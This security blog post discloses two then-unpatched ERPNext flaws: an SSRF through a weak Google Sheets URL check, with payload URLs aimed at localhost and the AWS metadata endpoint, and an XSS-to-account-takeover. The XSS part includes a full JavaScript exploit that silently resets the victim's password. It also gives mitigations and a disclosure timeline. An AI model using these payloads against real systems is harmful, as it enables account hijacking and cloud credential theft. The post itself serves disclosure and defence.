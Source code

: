 ```yaml
---
title: SSRF and Account Takeover via XSS in ERPNext (0-day)
date: 2022-04-06
tags: [Security]
author: huli
layout: en/layouts/post.njk
image: /img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/cover-en.png
---
```


<!-- summary -->
[ERPNext](https://erpnext.com/) is a very popular open-source ERP(Enterprise Resource Planning) software built on [Frappe Framework](https://github.com/frappe/frappe).

Last December, we found two vulnerabilities in the latest version of ERPNext: SSRF(Server-Side Request Forgery) and account takeover via XSS. Both vulnerabilities require a low-privileged authenticated user to perform the attack.
<!-- summary -->

By exploiting SSRF, a malicious actor could steal the credentials from cloud metadata and may lead to RCE. For XSS, it's possible to take over others’ accounts.

We reported both vulnerabilities on November 25th, 2021. At the time of writing, there is still no fix for those two issues, so we decided to publish the details to inform the public about the risk.

## SSRF(Server-Side Request Forgery)

In ERPNext, the user with certain roles can import data from files or Google Sheets:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p1.png)

After data is imported, you can preview the content before saving it to the system.

Following is the function for importing data from Google Sheets:

``` py
def get_csv_content_from_google_sheets(url):
  # https://docs.google.com/spreadsheets/d/{sheetid}}/edit#gid={gid}
  validate_google_sheets_url(url)
  # get gid, defaults to first sheet
  if "gid=" in url:
    gid = url.rsplit('gid=', 1)[1]
  else:
    gid = 0
  # remove /edit path
  url = url.rsplit('/edit', 1)[0]
  # add /export path,
  url = url + '/export?format=csv&gid={0}'.format(gid)

  headers = {
    'Accept': 'text/csv'
  }
  response = requests.get(url, headers=headers)

  if response.ok:
    # if it returns html, it couldn't find the CSV content
    # because of invalid url or no access
    if response.text.strip().endswith('</html>'):
      frappe.throw(
        _('Google Sheets URL is invalid or not publicly accessible.'),
        title=_("Invalid URL")
      )
    return response.content
  elif response.status_code == 400:
    frappe.throw(_('Google Sheets URL must end with "gid={number}". Copy and paste the URL from the browser address bar and try again.'),
      title=_("Incorrect URL"))
  else:
    response.raise_for_status()
```

It's straightforward, just get the data from Google Sheets and check the format.

But, what if we provide a URL that looks like Google Sheet URL, but it's not?

The system only checks if the URL contains `docs.google.com/spreadsheets`:

``` py
def validate_google_sheets_url(url):
  if "docs.google.com/spreadsheets" not in url:
    frappe.throw(
      _('"{0}" is not a valid Google Sheets URL').format(url),
      title=_("Invalid URL"),
    )
```

So, we can provide a URL like this: `http://localhost:8080/#docs.google.com/spreadsheets`, then we can get the response from the internal network. It's a classic SSRF vulnerability.

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p2.png)

If the port is open, the response will be different:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p3.png)

Moreover, we can access sensitive information via cloud metadata if the server is hosted on a cloud service.

For example, frappe cloud is hosted on AWS, so we can get metadata in `http://169.254.169.254/latest/dynamic/instance-identity/document#docs.google.com/spreadsheets`:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p4.png)

If there is an IAM associated with the instance, we can also read its credentials and escalate to RCE, here is one example: [Escalating SSRF to RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40).

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful when you grant importing data permission to a user.
2. Keep ERPNext in an isolated environment.
3. Requires [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-options.html) for AWS instance.

## Account Takeover via XSS

Every user in the ERPNext system has a profile page, like the following:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p5.png)

Users can upload their profile images from devices:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p6.png)

When uploading files, the front-end will check the file name to ensure it's an image(.png, .jpg, and so on). But, the back-end has no such check, so we can upload an HTML file by intercepting the request and changing the file extension to `.html`.

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p7.png)

But unfortunately, we can't directly open the HTML file because of the `Content-Disposition` header:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p8.png)

Because of the header, the browser will download the HTML page instead of opening it.

After playing around with the feature for a while, we found that it can be bypassed by using the upper-case extension `.HTML`:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p9.png)

Now, we have an easy XSS. On the [security page](https://erpnext.com/security) of ERPNext, it clearly states that:

> Please Note: XSS and HTML Injections won't be accepted.

I think it's fine for some cases because pop-up an alert makes no harm, right? But what if we find a way to escalate it to another vulnerability with bigger impact?

Surprisingly, in ERPNext, the user doesn't need to input the old password to change to a new password:

![](/img/posts/huli/erpnext-ssrf-and-xss-to-account-takeover/p10.png)

So, we can write a script to automatically update the password for the victim user, like this:

``` html
<script>
  async function exploit(){
    // get user id from cookie
    const userId = document.cookie.match(/user_id=([^;]+)/)[1]
    console.log('user id:', userId)

    // get csrf token first
    const html = await fetch('/app').then(res => res.text())
    const token = html.match(/csrf_token = "(.+)";/)[1]
    console.log('csrf token:', token)

    // get user doc
    const json = await fetch('/api/method/frappe.desk.form.load.getdoc?doctype=User&name='+userId).then(res=>res.json())
    const docs = json.docs[0]
    console.log(docs)
    
    // just random strong password
    docs.new_password = 'WIofjg249hq@!32a'

    formBody = 'doc=' + encodeURIComponent(JSON.stringify(docs)) + '&action=Save'

    // update password
    const resp = await fetch('/api/method/frappe.desk.form.save.savedocs', {
      method: 'POST',
      headers: {
        'X-Frappe-Csrf-Token': token,
        'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'
      },
      body: formBody
    });
    const result = await resp.json();
    console.log(result)
  }

  exploit()
</script>
```

When the victim user opens this page, their password will be updated.

So, as a malicious actor, I can upload the above content to the server, then send the URL to the admin. After the admin opens the page, I can take over his account because I know his password.

We successfully escalate from XSS to account takeover vulnerability.

### Mitigation

Before a new patched version release, we suggest that:

1. Be careful before opening any links hosted on ERPNext server, or using incognito mode to visit the link

## Conclusion

The latest version of ERPNext is vulnerable to both SSRF and XSS which can lead to account takeover. By exploiting SSRF, a malicious actor may read credentials from cloud metadata and escalate to RCE.

Both vulnerabilities require a low-privileged authenticated user to perform the attack.

There is no patch for the vulnerabilities at the time of writing. So we suggest that the user should be careful before the patch release. 

## Disclosure Timeline

`2021-11-25` Reported vulnerabilities via the [official form](https://erpnext.com/security)
`2021-12-15` Follow up, they said they are working on the fix
`2022-01-03` Follow up again, they said it's in the development phase
`2022-02-14` Follow up again, no response
`2022-02-23` 90 days since the initial report
`2022-03-10` Follow up again, no response
`2022-03-24` Ask for the updates, if there is no response we will publish the details in 14 days, no response
`2022-04-06` Public disclosure







